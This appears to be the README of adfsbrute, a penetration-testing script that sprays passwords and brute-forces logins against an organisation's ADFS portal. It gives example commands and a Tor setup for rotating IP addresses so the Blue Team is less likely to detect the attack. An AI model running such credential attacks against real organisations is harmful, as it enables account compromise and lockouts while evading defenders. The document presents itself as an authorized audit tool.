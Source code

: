 # adfsbrute

A script to test credentials against Active Directory Federation Services (ADFS), calculating the ADFS url of an organization and allowing password spraying or bruteforce attacks. 

The main idea is carrying out password spraying attacks with a random and high delay between each test and using a list of proxies or Tor to make the detection by the Blue Team more difficult. Brute force attacks are also possible, or testing credentials with the format *username:password* (for example from [Pwndb](https://github.com/davidtavarez/pwndb)). Tested logins will get stored in a log file to avoid testing them twice.

## Usage

```
./adfsbrute.py -t TARGET [-u USER] [-U USER_LIST] [-p PASSWORD] [-P PASSWORD_LIST] [-UL userpassword_list]
[-m MIN_TIME] [-M MAX_TIME] [-tp TOR_PASSWORD] [-pl PROXY_LIST] [-n NUMBER_OF_REQUESTS_PER_IP]
[-s STOP_ON_SUCCESS] [-r RANDOM_COMBINATIONS] [-d DEBUG] [-l LOG_FILE]
```

The parameters for the attacks are:

	* -t: Target domain. Example: test.com
	
	* -u: Single username. Example: agarcia@domain.com
	
	* -U: File with a list of usernames. Example: users.txt
	
	* -p: Single password: Example: Company123
	
	* -P: File with a list of passwords. Example: passwords.txt

	* -UP: File with a list of credentials in the format "username:password". Example: userpass.txt

	* -m : Minimum value of random seconds to wait between each test. Default: 30

	* -M : Maximum value of random seconds to wait between each test. Default: 60

	* -tp: [Tor password (change IP addresses using Tor)](https://github.com/ricardojoserf/adfsbrute#using-tor)

	* -pl: Use a proxy list (change IP addresses using a list of proxy IPs)

	* -n: Number of requests before changing IP address (used with -tp or -pl). Default: 1

	* -s: Stop on success, when one correct credential is found. Default: False

	* -r: Randomize the combination of users and passwords. Default: True

	* -d: Show debug messages. Default: True

	* -l: Log file location with already tested credentials. Default: tested.txt


## Examples

Password spraying with password "Company123", tor password is "test123" and changing the IP every 3 requests:

```
python3 adfsbrute.py -t company.com -U users.txt -p Company123 -tp test123 -n 3
```

![image](images/image1.png)


Password spraying with password "Company123", tor password is "test123", changing the IP for every request, random delay time between 10 and 20 seconds and do not randomize the order of users:

```
python3 adfsbrute.py -t company.com -U users.txt -p Company123 -tp test123 -m 10 -M 20 -r False
```

![image](images/image2.png)


Finding ADFS url:

```
python3 adfsbrute.py -t company.com
```

![image](images/image3.png)



## Using Tor

To use Tor to change the IP for every request, you must hash a password:

```
tor --hash-password test123
```

In the file /etc/tor/torrc, uncomment the variable *ControlPort* and the variable *HashedControlPassword*, and in this last one add the hash:

```
ControlPort 9051
HashedControlPassword 16:7F314CAB402A81F860B3EE449B743AEC0DED9F27FA41831737E2F08F87
```

Restart the tor service and use this password as argument for the script ("-tp test123" or "--tor_password 123")

```
service tor restart
```

## Note

This script is implemented to test in security audits, DO NOT use without proper authorization from the company owning the ADFS or you will block accounts.
